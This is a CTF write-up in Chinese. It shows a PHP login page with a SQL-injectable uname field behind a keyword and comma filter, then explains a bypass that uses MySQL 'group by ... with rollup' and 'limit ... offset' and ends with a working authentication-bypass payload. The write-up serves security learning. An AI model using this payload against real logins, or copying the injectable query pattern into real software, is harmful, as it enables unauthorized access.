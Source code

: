 # Challenge 
```php 
<?php
error_reporting(0);
if (!isset($_POST['uname']) || !isset($_POST['pwd'])) {
	echo '<form action="" method="post">'."<br/>";
	echo '<input name="uname" type="text"/>'."<br/>";
	echo '<input name="pwd" type="text"/>'."<br/>";
	echo '<input type="submit" />'."<br/>";
	echo '</form>'."<br/>";
	echo '<!--source: source.txt-->'."<br/>";
    die;
}
function AttackFilter($StrKey,$StrValue,$ArrReq){  
    if (is_array($StrValue)){
        $StrValue=implode($StrValue);
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){   
        print "水可载舟，亦可赛艇！";
        exit();
    }
}
$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
foreach($_POST as $key=>$value){
    AttackFilter($key,$value,$filter);
}
$con = mysql_connect("XXXXXX","XXXXXX","XXXXXX");
if (!$con){
	die('Could not connect: ' . mysql_error());
}
$db="XXXXXX";
mysql_select_db($db, $con);
$sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
$query = mysql_query($sql);
if (mysql_num_rows($query) == 1) {
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
	print "一颗赛艇！";
}
mysql_close($con);
?>
```
# Solution

用到mysql中的`with rollup`技巧。用普通的select查询下；
```
mysql> SELECT uname,pass FROM test.table;
+---------+------+
| uname   | pass |
+---------+------+
| chybeta | 123  |
+---------+------+
1 row in set (0.00 sec)
```
在加上`group by pass with rollup`后
```
mysql> SELECT uname,pass FROM test.table group by pass with rollup;
+---------+------+
| uname   | pass |
+---------+------+
| chybeta | 123  |
| chybeta | NULL |
+---------+------+
2 rows in set (0.01 sec)
```
rollup在查询结果中加上了一行，并且pass字段的值为NULL。这样当我们post进的pwd的值为空，就能满足`$key['pwd'] == $_POST['pwd']`的条件了。

在此之前我们还有一个条件要满足`mysql_num_rows($query) == 1`，我们要选择pass为NULL的单独的这一条记录。从源码分析可得，过滤了逗号，我们不能简单的使用`limit 1,1`这样的语法，而是可以使用`limit 1 offset 1`。就本地环境而言，比如

```
mysql> SELECT uname,pass FROM test.table group by pass with rollup limit 1 offset 1;
+---------+------+
| uname   | pass |
+---------+------+
| chybeta | NULL |
+---------+------+
1 row in set (0.01 sec)
```

payload:
```
uname='  or 1=1 group by pwd with rollup limit 1 offset 2 #&pwd=
```

# Refference
+ [chybeta : 因缺思汀的绕过](https://chybeta.github.io/2017/07/24/%E5%AE%9E%E9%AA%8C%E5%90%A7-web-writeup/#%E5%9B%A0%E7%BC%BA%E6%80%9D%E6%B1%80%E7%9A%84%E7%BB%95%E8%BF%87)